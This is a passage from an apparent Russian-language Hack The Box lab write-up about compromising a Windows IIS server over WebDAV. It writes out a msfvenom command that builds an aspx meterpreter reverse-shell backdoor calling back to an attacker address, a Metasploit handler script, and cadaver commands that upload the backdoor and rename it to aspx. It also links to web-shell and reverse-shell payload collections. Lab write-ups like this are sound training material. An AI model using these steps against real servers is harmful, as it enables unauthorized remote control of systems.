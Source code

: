 * Например, если ты точно знаешь, где лежит то, что тебе нужно, и что для доступа хватит базовых привилегий в системе, то можно ограничиться простым [веб-шеллом](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx), взаимодействовать с которым можно прямо из браузера.
* Если же тебе нужно внимательнее осмотреться на хосте, тогда твоим выбором может стать тот же самый веб-шелл в связке [с пейлоадом](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) на PowerShell, что в конечном итоге дарует тебе реверс-шелл. Далее можно будет проанализировать вывод `systeminfo` с помощью какого-нибудь локального [suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)'а для Windows.
* Ну а если твоя цель — полный захват контроля над тачкой с эскалацией привилегий до админа, тогда meterpreter — твой путь.

Конечно, мы выберем последний вариант.

### Генерация пейлоада

С помощью `msfvenom` создадим бекдор с полезной нагрузкой meterpreter для 32-битной версии Windows в формате `aspx`.

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform win LHOST=10.10.14.10 LPORT=31337 -f aspx > meterpreter/m.aspx
```

Далее я создам скрипт автозапуска слушателя Metasploit, чтобы не вводить команды каждый раз вручную в консоли MSF.

```
# meterpreter/l.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 31337
set ExitOnSession false
exploit -j -z
```

### cadaver

В Kali есть инструмент с жутковатым названием cadaver (то есть «труп») — это консольный WebDAV-клиент, который облегчает взаимодействие с WebDAV из командной строки.

Я копирую сгенерированный в `msfvenom` бекдор в текстовый файл `m.txt`, загружу его на сервер и переименую в `m.aspx` в интерактивной сессии `cadaver`.

```
root@kali:~# cp meterpreter/m.aspx m.txt
root@kali:~# cadaver http://10.10.10.15
dav:/> put m.txt
dav:/> move m.txt m.aspx
```

[![cadaver.png](/assets/images/htb/machines/grandparents/cadaver.png)](/assets/images/htb/machines/grandparents/cadaver.png)
{:.center-image}
